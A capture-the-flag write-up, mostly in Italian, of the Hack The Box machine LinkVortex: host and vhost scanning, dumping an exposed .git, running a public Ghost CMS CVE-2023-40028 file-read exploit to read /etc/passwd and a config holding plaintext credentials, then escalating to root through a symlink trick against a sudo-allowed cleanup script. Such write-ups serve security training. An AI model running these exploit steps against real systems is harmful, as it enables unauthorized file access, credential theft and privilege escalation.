








Target: 10.10.11.47
Port scanning:
$ nmap -sC -sV -oA nmap/top1000 10.10.11.47
Results:
http://linkvortex.htb/.[+] Ubuntu Jammy (22.04)
Update local dns:
kali $ vim /etc/hosts
Append to /etc/hosts:
10.10.11.47 linkvortex.htb
The web app uses the ghost CMS version 5.58.

Ghost is a powerful app for new-media creators to publish, share, and grow a business around their content.
There is an author: admin.

From the ghost documentation discover the Admin API uses to which has both read and write access used to create and update content.
Security results are commit in github.
The robots.txt reveals some path.

The /ghost/ path redirect to a Sign in page.

Virtual hosting routing scanning with ffuf:
$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -o ffuf/vhost -of csv -v
$ cat ffuf/vhost | cut -d"," -f1,5 | grep -nv ".*,301"
1:FUZZ,status_code
32:dev,200
Result:
dev.linkvortex.htbUpdates the local dns.
10.10.11.47 linkvortex.htb dev.linkvortex.htb
Visit http://dev.linkvortex.htb.

This suggest that the web page is in development mode, potrebbe esserci un controllo di versione quale .git.
Visit http://dev.linkvortex.htb/.git.

Si utilizza git-dumper per recuperare il codebase.
$ python3 -m venv venv && source venv/bin/activate && pip install git-dumper
$ git-dumper http://dev.linkvortex.htb/.git ./codebase/
Con una ricerca sul web, si è appreso della esistenza di una vulnerabilità per Ghost 5.58.
[+] CVE 2023-40028
This script exploits a vulnerability in Ghost CMS (CVE-2023-40028) to read arbitrary files from the server. By leveraging a symlink in an uploaded ZIP file, an attacker can gain unauthorized access to sensitive files on the system.
Try to gain access as user.
$ ls -lah codebase/
total 1.4M
drwxrwxr-x 7 kali kali 4.0K Mar 18 11:17 .
drwxrwxr-x 8 kali kali 4.0K Mar 18 11:16 ..
drwxrwxr-x 8 kali kali 4.0K Mar 18 11:17 apps
-rw-rw-r-- 1 kali kali 521 Mar 18 11:17 Dockerfile.ghost
-rw-rw-r-- 1 kali kali 312 Mar 18 11:17 .editorconfig
drwxrwxr-x 80 kali kali 4.0K Mar 18 11:17 ghost
drwxrwxr-x 7 kali kali 4.0K Mar 18 11:17 .git
-rw-rw-r-- 1 kali kali 122 Mar 18 11:17 .gitattributes
drwxrwxr-x 7 kali kali 4.0K Mar 18 11:17 .github
-rw-rw-r-- 1 kali kali 3.1K Mar 18 11:17 .gitignore
-rw-rw-r-- 1 kali kali 135 Mar 18 11:17 .gitmodules
-rw-rw-r-- 1 kali kali 1.1K Mar 18 11:17 LICENSE
-rw-rw-r-- 1 kali kali 888 Mar 18 11:17 nx.json
-rw-rw-r-- 1 kali kali 3.5K Mar 18 11:17 package.json
-rw-rw-r-- 1 kali kali 2.8K Mar 18 11:17 PRIVACY.md
-rw-rw-r-- 1 kali kali 5.3K Mar 18 11:17 README.md
-rw-rw-r-- 1 kali kali 518 Mar 18 11:17 SECURITY.md
drwxrwxr-x 2 kali kali 4.0K Mar 18 11:17 .vscode
-rw-rw-r-- 1 kali kali 1.4M Mar 18 11:17 yarn.lock
Per sfruttare la Local File Inclusion bisogna avere un account per accedere alle funzionalità che Ghost mette a disposizione.
Discovery di informazioni per il login.
Used detection_email.sh script to collect some emails in codebase/.
$ ../detect_email.sh . ../email.txt
There are 837 emails detected.
E' lecito pensare che, vista la presenza di un autore admin che ha pubblicato del contenuto nel blog, allora la sua email potrebbe essere del tipo admin@*.*.
$ grep "admin" email.txt
admin+1@ghost.org
admin-api-key-test@example.com
admin@example.com
administrator@test.com
newadmin@test.com
test+admin@ghost.org
Per tutti questi risultati, la pagina restituisce una non corrispondenza.
$ grep "linkvortex" email.txt
dev@linkvortex.htb
Non funziona, ma questo puo far pensare alla esistenza di una email del tipo admin@linkvortex.htb.

Si cerca una possibile password in codebase/.
Con il comando
$ grep -rinh "password =" .
si sono trovati due corrispondenze interessanti:
Si ha accesso alla pagina http://linkvortex.htb/ghost/#/dashboard con le credenziali:

$ git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028.git
Si lancia l'exploit:
$ ./CVE-2023-40028 -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45' -h http://linkvortex.com
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
Users muniti di /bin/bash:
Tentativo di accesso con ssh per node.
Le password collezionate e presenti in codebase/ non permettono l'accesso con ssh.
Si analizza il file Dockefile.ghost:
$ cat Dockerfile.ghost
FROM ghost:5.58.0
# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json
# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh
ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
Si utilizza l'exploit per ottenere il file /var/lib/ghost/config.production.json.
File content:
{
"url": "http://localhost:2368",
"server": {
"port": 2368,
"host": "::"
},
"mail": {
"transport": "Direct"
},
"logging": {
"transports": ["stdout"]
},
"process": "systemd",
"paths": {
"contentPath": "/var/lib/ghost/content"
},
"spam": {
"user_login": {
"minWait": 1,
"maxWait": 604800000,
"freeRetries": 5000
}
},
"mail": {
"transport": "SMTP",
"options": {
"service": "Google",
"host": "linkvortex.htb",
"port": 587,
"auth": {
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
}
}
}
}
Si sono effettuati altri tentativi per accedere ad una shell remota.
Accesso ottenuto.
bob@linkvortex:~$ ls -lah
total 28K
drwxr-x--- 3 bob bob 4.0K Nov 30 10:07 .
drwxr-xr-x 3 root root 4.0K Nov 30 10:07 ..
lrwxrwxrwx 1 root root 9 Apr 1 2024 .bash_history -> /dev/null
-rw-r--r-- 1 bob bob 220 Jan 6 2022 .bash_logout
-rw-r--r-- 1 bob bob 3.7K Jan 6 2022 .bashrc
drwx------ 2 bob bob 4.0K Nov 1 08:40 .cache
-rw-r--r-- 1 bob bob 807 Jan 6 2022 .profile
-rw-r----- 1 root bob 33 Mar 19 21:48 user.txt
bob@linkvortex:~$ cat user.txt
e67ed2c07cbdc3c***************f0
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT
User bob may run the following commands on linkvortex:
(ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
user.txt:69ee55437ca082***************f3
bob@linkvortex:/opt/ghost$ ls -lah
total 48K
drwxr-xr-x 4 root root 4.0K Nov 30 10:07 .
drwxr-xr-x 5 root root 4.0K Nov 30 10:07 ..
-rw------- 1 root root 521 Apr 1 2024 Dockerfile.ghost
-rw------- 1 root root 185 Apr 1 2024 Dockerfile.ghost-db
-rwxr--r-- 1 root root 745 Nov 1 08:46 clean_symlink.sh
-rw-r--r-- 1 root root 645 Apr 1 2024 config.production.json
drwxr-xr-x 11 1000 root 4.0K Apr 1 2024 content
-rw------- 1 root root 1.4K Apr 1 2024 docker-compose.yml
-rw------- 1 root root 238 Apr 1 2024 entry.sh
drwxr-xr-x 8 _laurel root 4.0K Mar 19 21:45 mysql
-rw------- 1 root root 5.2K Apr 1 2024 wait-for-it.sh
Analisi dello script clean_symlink.sh:
bob@linkvortex:/opt/ghost$ cat -n clean_symlink.sh
1 #!/bin/bash
2
3 QUAR_DIR="/var/quarantined"
4
5 if [ -z $CHECK_CONTENT ];then
6 CHECK_CONTENT=false
7 fi
8
9 LINK=$1
10
11 if ! [[ "$LINK" =~ \.png$ ]]; then
12 /usr/bin/echo "! First argument must be a png file !"
13 exit 2
14 fi
15
16 if /usr/bin/sudo /usr/bin/test -L $LINK;then
17 LINK_NAME=$(/usr/bin/basename $LINK)
18 LINK_TARGET=$(/usr/bin/readlink $LINK)
19 if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
20 /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
21 /usr/bin/unlink $LINK
22 else
23 /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
24 /usr/bin/mv $LINK $QUAR_DIR/
25 if $CHECK_CONTENT;then
26 /usr/bin/echo "Content:"
27 /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
28 fi
29 fi
30 fi
Lo script clean_symlink.sh viene eseguito con i permessi di root ed in sostanza, permette di leggere il contenuto di un file soddisfacendo i seguenti requisiti:
payload deve essere un file con estenzione .png;symlink;symlink non deve essere comprendere file di /etc e /root;CHECK_CONTENT deve essere settata a un valore diverso dalla stringa vuota per poter ottenere in output il contenuto del file passato in input allo script.Si puo utilizzare questo script per accedere a risorse sensibili.
Struttura dei symbolic link da definire:
payload.png -> normal file -> file with no read permission for bob
bob@linkvortex:/opt/ghost$ find / -name root
find: ‘/root’: Permission denied
bob@linkvortex:/opt/ghost$ mkdir ~/payload/
bob@linkvortex:/opt/ghost$ ln -s -T /root/root.txt ~/payload/file
bob@linkvortex:/opt/ghost$ ln -s -T ~/payload/file ~/payload/file.png
bob@linkvortex:/opt/ghost$ cat ~/payload/file.png
cat: /home/bob/payload/file.png: Permission denied
bob@linkvortex:/opt/ghost$ sudo CHECK_CONTENT="true" /usr/bin/bash /opt/ghost/clean_symlink.sh ~/payload/file.png
Link found [ /home/bob/payload/file.png ] , moving it to quarantine
Content:
69ee55437ca082***************f3
root.txt:69ee55437ca082***************f3